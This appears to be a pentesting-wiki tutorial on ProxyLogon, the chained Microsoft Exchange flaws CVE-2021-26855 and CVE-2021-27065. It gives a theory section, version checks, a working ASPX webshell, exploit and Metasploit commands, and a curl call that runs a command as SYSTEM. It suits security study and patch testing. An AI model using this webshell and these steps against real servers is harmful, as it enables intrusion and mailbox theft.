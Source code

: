 ```yaml
---
description: Chained CVE-2021-26855 and CVE-2021-27065
---
```


# ProxyLogon

## Theory

ProxyLogon is the formally generic name for [CVE-2021-26855](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-26855), a vulnerability on Microsoft Exchange Server that allows an attacker bypassing the authentication and impersonating as the admin. We have also chained this bug with another post-auth arbitrary-file-write vulnerability, [CVE-2021-27065](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-27065), to get code execution. All affected components are **vulnerable by default**!\
As a result, an **unauthenticated** attacker can **execute arbitrary commands** on Microsoft Exchange Server through an **only opened 443 port**!

**CVE-2021-26855** : Pre-auth SSRF\
This is a Server-Side Request Forgery (SSRF) vulnerability in the Exchange Server that allows remote attackers to gain admin access once exploited. This can be exploited by sending a specially crafted web request to a vulnerable Exchange Server. The web request contains an XML SOAP payload directed at the Exchange Web Services (EWS) API endpoint. This request bypasses authentication using **specially crafted cookies**. This vulnerability, combined with the knowledge of a victim’s email address, means the attacker can exfiltrate all emails from the target’s Exchange mailbox.

**CVE-2021-27065** : Post-auth Arbitrary-File-Write\
Thanks to the super SSRF allowing us to access the Backend without restriction. The next is to find a RCE bug to chain together. Here we leverage a Backend internal API `/proxyLogon.ecp` to become the admin. The API is also the reason why we called it ProxyLogon.\
Because we leverage the Frontend handler of static resources to access the ECExchange Control Panel (ECP) Backend, the header `msExchLogonMailbox` , which is a special HTTP header in the ECP Backend, will not be blocked by the Frontend. By leveraging this minor inconsistency, we can specify ourselves as the SYSTEM user and generate a valid ECP session with the internal API.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
We can use the [http-vuln-exchange.nse](https://github.com/GossiTheDog/scanning/blob/main/http-vuln-exchange.nse) nmap script to scan a target

```bash
nmap -p80,443 --script="http-vuln-exchange.nse" $IP

443/tcp open  https
    |_http-vuln-proxylogon: (15.1.2176) Exchange 2016 potentially vulnerable, check latest security update is applied (Exchange 2016 CU18 or CU19 installed)
```

If we have local access to the target running exchange, we can check it version using the following powershell command:

```powershell
#Method 1
PS> GCM exsetup |%{$_.Fileversioninfo}

#Method 2
PS> (Get-Command ExSetup.exe).FileVersionInfo.ProductVersion

ProductVersion   FileVersion      FileName                                                                             
--------------   -----------      --------                                                                             
15.02.0858.005   15.02.0858.005   C:\Program Files\Microsoft\Exchange Server\V15\bin\ExSetup.exe
```

We can now search for the exact Microsoft Exchange product version using [this microsoft link](https://learn.microsoft.com/fr-fr/exchange/new-features/build-numbers-and-release-dates?view=exchserver-2019).\
\
Following versions are vulnerable:

| Version            | Vulnerable ProductVersion |
| ------------------ | ------------------------- |
| Exchange 2013      | < 15.00.1497.012          |
| Exchange 2016 CU18 | < 15.01.2106.013          |
| Exchange 2016 CU19 | < 15.01.2176.009          |
| Exchange 2019 CU7  | < 15.02.0721.013          |
| Exchange 2019 CU8  | < 15.02.0792.010          |

{% hint style="info" %}
All versions before March 2, 2021 are vulnerable
{% endhint %}
{% endtab %}

{% tab title="Exploit" %}
We can use this [python exploit](https://github.com/praetorian-inc/proxylogon-exploit) to abuse ProxyLogon. First let's create a webshell.

{% code title="webshell.aspx" %}
```aspnet
<script language="JScript" runat="server">
function Page_Load(){
eval(Request["kxpprfgvnosz"],"unsafe");
}
</script>
```
{% endcode %}

Run the exploit

```bash
python exploit.py --frontend https://172.16.59.7 --backend exchange.hafnium.local \
  --email administrator@hafnium.local \
  --webshell webshell.aspx \
  --path 'C:\\Program Files\\Microsoft\\Exchange Server\\V15\\FrontEnd\\HttpProxy\\ecp\\auth\\o.aspx'
```

{% hint style="info" %}
Exploitation requires knowledge of the frontend Exchange server URL (e.g. `https://exchange.example.org`) and an email address for a user on the system. The admin SID and backend can be leaked from the server.
{% endhint %}

We can now access our webshell:

```bash
$ curl -s -k https://172.16.59.7/ecp/auth/o.aspx \
  -d 'kxpprfgvnosz=Response.Write(new ActiveXObject("WScript.Shell").Exec("cmd /c whoami").StdOut.ReadAll());' | head -n 1

nt authority\system
```
{% endtab %}

{% tab title="Exploit - Metasploit" %}
A Metasploit module is available to exploit ProxyLogon

```bash
msf > use exploit/windows/http/exchange_proxylogon_rce
msf exploit(exchange_proxylogon_rce) > show targets
    ...targets...
msf exploit(exchange_proxylogon_rce) > set TARGET < target-id >
msf exploit(exchange_proxylogon_rce) > show options
    ...show and set options...
msf exploit(exchange_proxylogon_rce) > exploit
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://proxylogon.com/" %}

{% embed url="https://blog.orange.tw/2021/08/proxylogon-a-new-attack-surface-on-ms-exchange-part-1.html" %}
